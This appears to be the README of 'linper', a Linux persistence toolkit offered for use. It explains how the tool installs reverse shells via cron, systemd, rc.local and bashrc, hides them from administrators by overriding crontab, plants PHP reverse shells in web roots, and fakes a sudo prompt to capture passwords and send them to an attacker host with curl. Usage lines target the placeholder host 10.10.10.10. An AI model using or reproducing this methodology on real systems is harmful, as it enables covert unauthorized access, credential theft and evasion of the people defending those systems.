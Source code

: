 # linper

linux persistence toolkit

## files

- countermeasures/ - ways to harden/monitor common persistence mechanisms
- powershell/ - placeholder for the eventual winper
- CONTRIBUTE.md - notes on contributing to this project
- README.md - or not
- TODO.md - planned fixes & enhancements
- linper.sh - execute me

## features

- enumerate programs that can be used to execute a reverse shells and ways to make them persist a reboot
- automatically install reverse shells with all the required syntax, redirection, and pipes to minimize printing errors to screen or interrupting normal functions and processes
- supply custom crontab schedules for reverse shells
- look through /etc/shadow for accounts that can login via a password
- support for a stealth mode and the ability to clean up after itself
- place a function in ~/.bashrc to intercept and exfil sudo passwords
- place php reverse shells in web server directories

## credit

huge shoutout to the maintainers and contributers of [GTFOBins](https://gtfobins.github.io/) as their great resource laid the groundwork for much of this tool

also, thanks to Null Byte and [this article](https://null-byte.wonderhowto.com/how-to/steal-ubuntu-macos-sudo-passwords-without-any-cracking-0194190/) for the idea and some of the code behind the _Sudo Hijack Attack_ as implemented in this tool 

lastly, thank you to [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) for their examples on this too. 

## usage

### enumerating binaries for persistence

`bash linper.sh --dryrun`

`bash linper.sh -d`

### installing reverse shells

`bash linper.sh --rhost 10.10.10.10 --rport 4444`

`bash linper.sh -i 10.10.10.10 -p 4444`

#### stealth mode

`bash linper.sh --rhost 10.10.10.10 --rport 4444 --stealth-mode`

`bash linper.sh -i 10.10.10.10 -p 4444 -s`

### remove reverse shells to a given RHOST

`bash linper.sh --rhost 10.10.10.10 --clean`

`bash linper.sh -i 10.10.10.10 -c`

### emumerate defensive measures

`bash linper.sh --enum-defenses`

`bash linper.sh -e`

### advanced usage

run `bash linper.sh --examples` to see all usage examples

## methodology

### installing

1. enumerating methods and doors - the script enumerates binaries that can be used for executing a reverse shell (methods, e.g. bash), and then for each of those, it enumerates ways to make them persist (doors, e.g. crontab). If dryrun is not set, every possible method and door pair is installed <b>(the doors, and how often they execute, are explained in greater detail below)</b>

2. sudo hijack attack - enumerates whether or not the current user can sudo, if so, and if dryrun not set, it installs a function in their bashrc to "hijack" that binary

3. web server poison attack - enumerates whether or not the webserver's directories are writable and, if so and dryrun is not set, place a PHP reverse shell in them

4. shadow file enumeration - enumerates whether or not the shadow file is readable, if dryrun is not set then it will grep for non-system accounts

#### stealth mode

`-s, --stealth-mode various trivial modifications in an attempt to hide the backdoors from humans`

1. makes the files related to installing services hidden by prepending a "."

2. disables the ability to append methods to the bashrc - because if a connection fails it is noisy and prints to the screen

3. creates a `crontab` function in \~/.bashrc to override the `-r` and `-l` flags. `-r` is changed to remove all crontab entries <u>except</u> your reverse shells. `-l` is changed to list all the existing cron jobs <u>except</u> your reverse shells

4. converts ipv4 to decimal format

### cleaning

1. to remove shells from the bashrc (current user's and /etc/skel), it simply greps out any lines with the given RHOST and creates a temp file which is then used to replace the respective file

2. to remove shells from /etc/crontab and /var/spool/cron/crontabs. for /etc/crontab, it greps out any lines containing the supplied RHOST. for contab spool, it attempts to grep out any lines with the given RHOST from `crontab -l`, then greps for any remaining `[a-zA-Z0-9]` characters and pipes that to crontab. If the install fails, it assumes there are no other cron jobs so it runs `crontab -r`

3. to remove reverse shells from systemctl service files, it looks for the any file with the given RHOST in it and then looks for the name of said file in any other file and removes both

4. to remove shells from /etc/rc.local, it simply greps out any reference to the given RHOST and if the remaining file is two lines long it assumes there was nothing else to execute in rc.local so it removes the file (it checks for two lines because, at minimum, it must start with `!#/bin/sh -e` and end with `exit 0`)

5. to remove the `crontab` function installed by `-s, --stealth-mode`, it looks for the provided RHOST in ~/.bashrc and the string "function crontab". If both return true then it uses sed and grep to remove the function itself, writes to a temp file, and then replaces ~/.bashrc with the temp file 

6. to remove the `sudo` function, it looks for the provided RHOST, various variable names used by the function, and the string "function sudo". If all return true, then it uses sed and grep to remove the function itself, writes to a temp file, and then replaces ~/.bashrc with the temp file

7. to remove reverse shells from the web root and /etc/cron.d/, recursively greps for any file containing the provided RHOST and removes each file it finds

## execution frequency

this will explain how often different programs installed by the tool will execute

### doors

how often a reverse shell installed using each door will callback

- bashrc, every time bash initializes for the user it was installed with (e.g. interactive shell, or running "/bin/bash") 
- /var/spool/cron/crontabs/user, /etc/crontab, and /etc/cron.d/, custom (defualt: every minute)
- systemctl, at system startup
- /etc/rc.local, at system startup
- /etc/skel/.bashrc, after a new user is created, and then any time that user initializes bash

### sudo hijack attack

how often the `sudo` alias will attempt to exfil passwords

- every time `sudo` is executed by the account linper was ran as
- make sure to have a web server running on port 443 on the IP you provided as the `-i, --rhost`

#### how it works

1. when linper is executed it puts a `sudo` function in the bashrc of the current user

after it is installed and once `sudo` is executed, the alias will:

2. takes note of where the actual `sudo` program is located on the system
3. determines where to create a file to store exfiltrated passwords
4. creates a fake `sudo` prompt and stores the input (password) as a variable
5. puts the contents of the variable in the file from step 3
6. sorts and deduplicates aforementioned file
7. base64 encodes the contents of the file and stores it as a variable
8. uses `curl` to exfiltrate the base64 as a GET parameter to https://$RHOST/
9. runs `exit` with the actual `sudo` program to start the sudo session timer
10. runs the supplied input of the original `sudo` command (not the password, but the program and arguments) with the actual `sudo` binary

### web server hijack attack

1. uses /etc/passwd to find the web root
2. installs php reverse shells in all writable directories under web root
